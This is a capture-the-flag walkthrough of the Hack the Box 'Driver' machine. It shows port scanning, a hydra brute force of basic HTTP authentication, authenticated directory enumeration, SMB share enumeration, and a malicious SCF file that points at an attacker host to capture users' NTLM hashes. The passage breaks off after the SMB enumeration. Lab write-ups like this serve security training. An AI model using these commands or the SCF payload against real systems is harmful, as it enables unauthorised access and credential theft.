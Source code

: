 # Hack the Box - Driver

```CSS
rustscan -a 10.10.11.106 -r 0-65535 --ulimit 5000
```
```CSS
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.106:80
Open 10.10.11.106:135
Open 10.10.11.106:445
Open 10.10.11.106:5985
[~] Starting Script(s)
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 12:05 IST
Initiating Ping Scan at 12:05
Scanning 10.10.11.106 [2 ports]
Completed Ping Scan at 12:05, 0.15s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:05
Completed Parallel DNS resolution of 1 host. at 12:05, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 3, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 12:05
Scanning 10.10.11.106 [4 ports]
Discovered open port 80/tcp on 10.10.11.106
Discovered open port 135/tcp on 10.10.11.106
Discovered open port 445/tcp on 10.10.11.106
Discovered open port 5985/tcp on 10.10.11.106
Completed Connect Scan at 12:05, 0.15s elapsed (4 total ports)
Nmap scan report for 10.10.11.106
Host is up, received syn-ack (0.15s latency).
Scanned at 2023-09-17 12:05:49 IST for 0s

PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack
135/tcp  open  msrpc        syn-ack
445/tcp  open  microsoft-ds syn-ack
5985/tcp open  wsman        syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.39 seconds
```

```CSS
nmap -sC -sV 10.10.11.106 -p 80,135,445,5985
```
```CSS
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 12:28 IST
Nmap scan report for 10.10.11.106
Host is up (0.15s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2023-09-17T13:58:28
|_  start_date: 2023-09-17T13:30:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.67 seconds
```

HTTP:80
```HTTP
http://10.10.11.106/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/fb3fbdf9-f765-4378-b4c7-304bf9e4b572)

Brute-force Basic HTTP Authentication
```CSS
hydra -l admin -P ~/Wordlists/passwords-common.txt 10.10.11.106 http-get
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/34d7e7e1-12c3-4e23-80f7-54485d90f407)

Login successful using credentials: `admin:admin`
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c9faf283-3920-4f1a-b18d-f986b8327a7f)

Authenticated Directories and Files
```CSS
feroxbuster -u http://10.10.11.106 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php -H 'Authorization: Basic YWRtaW46YWRtaW4=' -s 200 -n
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c04eb4a7-1cee-4c60-ad33-f2f0d5a19821)

Firmware Update
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/29efdec0-7744-4955-a5ea-1e2cdedc0d10)

SMB File Upload
- This [blog](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) suggests that by crafting a malicious SCF file and placing it somewhere in network shares, we can automatically capture a user's NTLM password hashes when they access the share.

Contents of the `payload.scf` file.
```CSS
[Shell]
Command=2
IconFile=\\10.10.14.14\tools\responder.ico
[Taskbar]
Command=ToggleDesktop
```



SMB Enumeration
```CSS
crackmapexec smb 10.10.11.106 -u '' -p '' --shares

SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\: STATUS_ACCESS_DENIED 
SMB         10.10.11.106    445    DRIVER           [-] Error enumerating shares: Error occurs while reading from remote(104)
```

```CSS
crackmapexec smb 10.10.11.106 -u 'anonymous' -p '' --shares

SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\anonymous: STATUS_LOGON_FAILURE 
```
